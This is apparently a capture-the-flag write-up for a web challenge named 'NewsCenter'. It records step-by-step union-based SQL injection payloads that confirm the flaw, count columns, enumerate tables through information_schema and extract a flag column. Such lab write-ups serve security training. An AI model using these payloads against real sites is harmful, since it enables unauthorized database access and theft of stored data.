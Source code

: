 # NewsCenter

![Screenshot from 2021-07-24 22-33-50](https://user-images.githubusercontent.com/87865134/126873468-6659aa6d-5d89-4f46-8c3c-c595dca0f36b.png)

- **Maybe SQLi, XSS**
- **Test SQLi:** 
  - search: `'` => 500 status code
  - search: `' or 1=1 #` => show all post
    - > SQLi

- **How many fields?**
  - `1' order by 4` => 500 status code
  - `1' order by 3` => have result
    - > 3 fields

- **Check type of fields**
  - `' union select 'a', 'b', 'c' #` => have result
    - > varchar

- **Show all tables in this database**
  - `' union select null, table_name, null from information_schema.tables #`
    - > found ***secret_table***
 
 ![Screenshot from 2021-07-24 22-46-43](https://user-images.githubusercontent.com/87865134/126873850-d9469627-9e31-4981-b656-a0f6f5640d9d.png)
 
- **Find name column of** ***secret_table***
  - `' union select null, column_name, null from information_schema.columns where table_name='secret_table' #`
    - > 2 columns: id, fl4g

![Screenshot from 2021-07-24 22-49-51](https://user-images.githubusercontent.com/87865134/126873902-5a910eef-c44a-4e96-b161-dbd14160a287.png)

- **Get content of table** ***secret_table***
  - `a' union select null, fl4g, null from secret_table #`
    - > Got flag

![Screenshot from 2021-07-24 22-51-15](https://user-images.githubusercontent.com/87865134/126873958-5873414c-110e-437f-8a55-04ef544ea53d.png)


- **Desciption:**
  - > category: SQL injection 
 
